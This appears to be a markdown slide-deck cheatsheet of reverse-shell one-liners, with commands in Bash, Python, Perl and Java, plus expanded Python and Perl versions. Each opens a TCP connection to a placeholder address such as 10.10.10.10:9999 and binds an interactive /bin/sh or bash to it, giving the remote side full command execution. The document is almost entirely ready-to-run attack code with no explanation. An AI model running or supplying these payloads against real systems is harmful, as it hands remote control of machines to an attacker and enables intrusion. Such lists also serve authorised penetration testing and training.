```yaml
---
title:
- Reverse Shell Cheatsheet
-theme:
- Copenhagen

---
```


[TOC]
# Bash
# Python*
# Perl
# Java



# Bash

> bash -i >& /dev/tcp/10.10.10.10/9999 0>&1 


# Python*

> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
\#Same but prettier
	import socket
	import subprocess
	import os

	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("10.0.0.1",1234))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	p=subprocess.call(["/bin/sh","-i"])

```


# Perl

> perl -e 'use Socket;$i="10.10.10.10";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```
	use Socket;
	$i="10.0.0.1";
	$p=1234;
	socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
	if(connect(S,sockaddr_in($p,inet_aton($i)))){
		open(STDIN,">&S");
		open(STDOUT,">&S");
		open(STDERR,">&S");
		exec("/bin/sh -i");
};

```


# Java

```
r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.10/9999;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()

```










